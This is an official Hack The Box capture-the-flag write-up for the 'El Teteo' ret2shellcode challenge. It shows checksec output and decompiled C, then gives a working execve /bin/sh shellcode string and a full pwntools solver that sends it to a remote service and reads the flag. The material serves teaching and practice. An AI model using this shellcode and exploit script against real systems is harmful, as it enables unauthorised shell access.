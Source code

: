 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">El Teteo</font>

​		16<sup>th</sup> September 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 



# Synopsis

El Teteo is a very easy difficulty challenge that features `ret2shellcode`.

# Description

El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## Skills Required

- Basic C.

## Skills Learned

- `ret2shellcode`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec 
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
RUNPATH:    b'./glibc/'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ❌      | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 

![](assets/interface.png)

We already see that when we enter something, the program crashes with "Illegal Instruction". This means that the program tries to execute something that is not a valid instruction. We also see that `NX` is disabled, meaning we can execute arbitrary code. 

### Disassembly

Starting with `main()`:

```c
00001366  int32_t main(int32_t argc, char** argv, char** envp)

00001366  {
0000137e      void* fsbase;
0000137e      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001392      cls();
0000139e      void* const var_a8 = "\x1b[1;33m";
000013ac      void* const var_a0 = "\x1b[1;36m";
000013ba      void* const var_98 = "\x1b[1;32m";
000013c8      void* const var_90 = "\x1b[1;31m";
000013d6      void* const var_88 = "\x1b[1;34m";
000013e1      void* const var_80 = "\x1b[1;35m";
000013ec      void* const var_78 = "\x1b[1;37m";
000013fc      srand(time(nullptr));
00001448      printf(&data_204e, &var_a8[((int64_t)(rand() % 6))]);
0000147a      int64_t rax_22 = &var_a8[((int64_t)(rand() % 6))];
000014b6      int64_t rbx = &var_a8[((int64_t)(rand() % 6))];
000014f2      int64_t rdi_1 = &var_a8[((int64_t)(rand() % 6))];
0000152e      int64_t rsi_11 = &var_a8[((int64_t)(rand() % 6))];
0000156a      int64_t rcx_24 = &var_a8[((int64_t)(rand() % 6))];
000015a6      int64_t rdx_7 = &var_a8[((int64_t)(rand() % 6))];
000015e2      int64_t r10 = &var_a8[((int64_t)(rand() % 6))];
0000161e      int64_t r11 = &var_a8[((int64_t)(rand() % 6))];
0000165a      int64_t r8 = &var_a8[((int64_t)(rand() % 6))];
00001696      int64_t r9 = &var_a8[((int64_t)(rand() % 6))];
000016d2      int64_t r14 = &var_a8[((int64_t)(rand() % 6))];
0000170e      int64_t r15 = &var_a8[((int64_t)(rand() % 6))];
0000174a      int64_t r12 = &var_a8[((int64_t)(rand() % 6))];
00001786      int64_t r13 = &var_a8[((int64_t)(rand() % 6))];
000017c2      int64_t rax_149 = &var_a8[((int64_t)(rand() % 6))];
000017fe      int64_t rbx_1 = &var_a8[((int64_t)(rand() % 6))];
0000183a      int64_t rdi_2 = &var_a8[((int64_t)(rand() % 6))];
00001876      int64_t rsi_40 = &var_a8[((int64_t)(rand() % 6))];
000018b2      int64_t rcx_62 = &var_a8[((int64_t)(rand() % 6))];
000018ee      int64_t rdx_43 = &var_a8[((int64_t)(rand() % 6))];
0000192a      int64_t r10_1 = &var_a8[((int64_t)(rand() % 6))];
00001966      int64_t r11_1 = &var_a8[((int64_t)(rand() % 6))];
000019a2      int64_t r8_1 = &var_a8[((int64_t)(rand() % 6))];
000019de      int64_t r9_1 = &var_a8[((int64_t)(rand() % 6))];
00001a1a      int64_t r14_1 = &var_a8[((int64_t)(rand() % 6))];
00001a56      int64_t r15_1 = &var_a8[((int64_t)(rand() % 6))];
00001a92      int64_t r14_2 = &var_a8[((int64_t)(rand() % 6))];
00001ac7      int64_t r15_2 = &var_a8[((int64_t)(rand() % 6))];
00001afc      int64_t r13_1 = &var_a8[((int64_t)(rand() % 6))];
00001b31      int64_t r12_1 = &var_a8[((int64_t)(rand() % 6))];
00001b66      int64_t rbx_2 = &var_a8[((int64_t)(rand() % 6))];
00001c63      printf(&data_2058, &var_a8[((int64_t)(rand() % 6))], rbx_2, r12_1, r13_1, r15_2, r14_2, r15_1, r14_1, r9_1, r8_1, r11_1, r10_1, rdx_43, rcx_62, rsi_40, rdi_2, rbx_1, rax_149, r13, r12, r15, r14, r9, r8, r11, r10, rdx_7, rcx_24, rsi_11, rdi_1, rbx, rax_22);
00001c79      printstr("[!] I will do whatever you want,…");
00001c7e      int64_t shellcode;
00001c7e      __builtin_memset(&shellcode, 0, 0x20);
00001caf      read(0, &shellcode, 0x1f);
00001cbd      &shellcode();
00001cc8      *(uint64_t*)((char*)fsbase + 0x28);
00001cc8      
00001cd1      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
00001ce6          return 0;
00001ce6      
00001cd3      __stack_chk_fail();
00001cd3      /* no return */
00001366  }
```

If we skip the "colors", the actual code is:

```c
00001c79      printstr("[!] I will do whatever you want,…");
00001c7e      int64_t shellcode;
00001c7e      __builtin_memset(&shellcode, 0, 0x20);
00001caf      read(0, &shellcode, 0x1f);
00001cbd      &shellcode();
```

The program will execute whatever we store in the "shellcode" buffer. Taking that into consideration and the fact that `NX` is disabled, we can execute code and get shell. [This](https://shell-storm.org/shellcode/files/shellcode-806.html) payload works like a charm.

```bash
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './el_teteo' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

# Shellcode from https://shell-storm.org/shellcode/files/shellcode-806.html
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Send shellcode
r.sendlineafter('>', sc)

# Get flag
pause(1)
r.sendline('cat flag*')
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

